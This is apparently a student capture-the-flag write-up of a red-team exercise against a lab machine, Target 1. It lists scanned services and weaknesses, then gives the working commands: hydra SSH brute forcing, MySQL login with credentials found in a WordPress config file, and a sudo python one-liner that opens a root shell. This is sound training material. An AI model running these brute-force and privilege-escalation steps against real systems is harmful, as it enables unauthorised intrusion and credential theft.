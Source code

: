 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```

![nmapscan_Target1_img1](../Images/Offensive_Nmap_Target1.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 - SSH
  - Port 80 - HTTP
  - Port 111 - rpcbind
  - Port 139 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)
  - Port 445 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - SSH exposed to bruce force Attempts without multifactor authentication
  - HTTP port 80 allows for web traffic to pass through, and can expose files if not properly managed
  - NeBIOS Port 139 - If this system is going to be exposed to the internet it is advised to block this port from being accessed.
  - NetBIOS SMB port 445 - used in wannacry and notPetya ransomware attacks.  It is advised not to expose this to the internet like you would with a wordpress server.

wpscan -o ~/Desktop/wpscan_output --url http://1292.168.1.110/wordpress
![/Images/Flag1_WPScan_1_Target1.png](wpscan_Target1_img1)
![/Images/Flag1_WPScan_2_Target1.png](wpscan_Target1_img2)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `michael`: _Password: 'michael'_
    - **Exploit Used**
      - _Hydra: hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110:22 -t 4_
      - _Alternative: Guessing_
      - _Alternative: Credential Stuffing_
![/Images/hydra_michael_BruteForce.png](michael_hydra_img1)
![/Images/Flag2.png](michael_img2)
  - `root`: _`mySQL` Password: R@v3nSecurity_
    - **Exploit Used**
      - _Used brute force credentials to gain ssh access_
      - _Discovered Credentials in plain text in config file_
      - _mysql -u root -p wordpress_
![/Images/wordpress_Config.png](MySQL_config_img1)
![/Images/MySQL_Access.png](MySQL_Access_img1)
  - `steven`: `Password:`_"pink84"_ `Hash:`_"See Image Below"_
    - **Exploit Used**
      - _mysql -u root -p wordpress_
      - _John the Ripper with RockYou Dictionary attack_
      - `sudo python -c 'import os; os.system("/bin/sh")'`_to gain root privilege_
![/Images/root_level_access.png](root_img1)
![/Images/Flag3_MySql.png](MySQL_Target1_img1)


- Flags

Flag 1:
![/Images/Flag1.png](Flag_img1)


Flag 2:
![/Images/Flag2.png](flag2_img1)

Flag 3:
![/Images/Flag3.png](Flag_3_MySQL_img1)

Flag 4:
![/Images/Flag4_root.png](Flag_4_root_img2)

